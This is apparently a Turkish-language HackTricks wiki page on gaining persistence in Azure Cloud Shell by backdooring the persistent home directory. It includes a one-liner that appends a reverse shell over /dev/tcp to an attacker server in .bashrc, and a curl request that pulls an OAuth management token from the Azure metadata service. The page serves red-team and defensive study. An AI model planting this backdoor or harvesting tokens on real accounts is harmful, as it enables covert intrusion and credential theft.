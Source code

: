 # Az - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell Persistence

Azure Cloud Shell, Azure kaynaklarını yönetmek için kalıcı depolama ve otomatik kimlik doğrulama ile komut satırı erişimi sunar. Saldırganlar, kalıcı ana dizine arka kapılar yerleştirerek bunu istismar edebilir:

* **Kalıcı Depolama**: Azure Cloud Shell’in ana dizini, bir Azure dosya paylaşımına monte edilir ve oturum sona erdikten sonra bile sağlam kalır.
* **Başlangıç Betikleri**: .bashrc gibi dosyalar, her oturumun başlangıcında otomatik olarak çalıştırılır ve bulut kabuğu başladığında kalıcı yürütmeye olanak tanır.

.bashrc içindeki örnek arka kapı:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```
Bu arka kapı, kullanıcı tarafından bulut kabuğu tamamlandıktan 5 dakika sonra bile komutları çalıştırabilir.

Ayrıca Azure'un metadata hizmetinden örnek detayları ve token'lar için sorgu yapın:
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```
{{#include ../../../banners/hacktricks-training.md}}
